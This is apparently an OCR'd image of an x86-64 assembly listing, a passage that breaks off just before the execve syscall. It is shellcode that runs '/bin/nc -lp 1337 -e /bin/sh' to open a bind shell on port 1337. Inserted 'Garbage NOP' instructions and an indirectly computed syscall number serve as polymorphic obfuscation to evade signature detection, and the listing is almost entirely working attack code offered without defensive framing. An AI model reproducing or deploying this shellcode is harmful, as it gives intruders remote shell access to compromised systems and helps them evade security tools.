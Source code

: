 ```term

push	rbx
mov	rbx,rsp

mov	r10,0x37333331ffffffff

push r15                                      ; Garbage NOP
pop r14                                       ; Garbage NOP
push r15                                      ; Garbage NOP
pop r14                                       ; Garbage NOP

shr 	r10,0x20
push 	r10
mov	r10,rsp

mov	r9,0x702dffffffffffff
shr	r9,0x30
push 	r9
mov	r9,rsp

mov 	r8,0x6c2dffffffffffff
shr	r8,0x30

loop:

rol rbp, 59                                   ; Garbage NOP
ror r14, 60                                   ; Garbage NOP
shr r13, 8                                    ; Garbage NOP

push 	r8
mov	r8,rsp

push	rdx  ;push NULL
push 	rcx  ;push address of 'bin/sh'

push	rbx  ;push address of '-e'
push	r10  ;push address of '1337'

nop                                          ; Garbage NOP
stc                                          ; Garbage NOP
lea r12, [rsp - 0xFF]                        ; Garbage NOP
nop                                          ; Garbage NOP

cld                                          ; Garbage NOP
nop                                          ; Garbage NOP

push	r9   ;push address of '-p'
push	r8   ;push address of '-l'
push 	rdi  ;push address of '/bin/nc'

mov    	rsi,rsp

stc                                          ; Garbage NOP
cmc                                          ; Garbage NOP
push rsp                                     ; Garbage NOP
pop r14                                      ; Garbage NOP
push r15                                     ; Garbage NOP
pop rax                                      ; Garbage NOP

mov    	al, 0x0c                             ; Gives AL the value 0C.
add     al, 0x2f                             ; Adds AL with 2F, this will grant AL the value 3B, which is the syscall number for execve.

```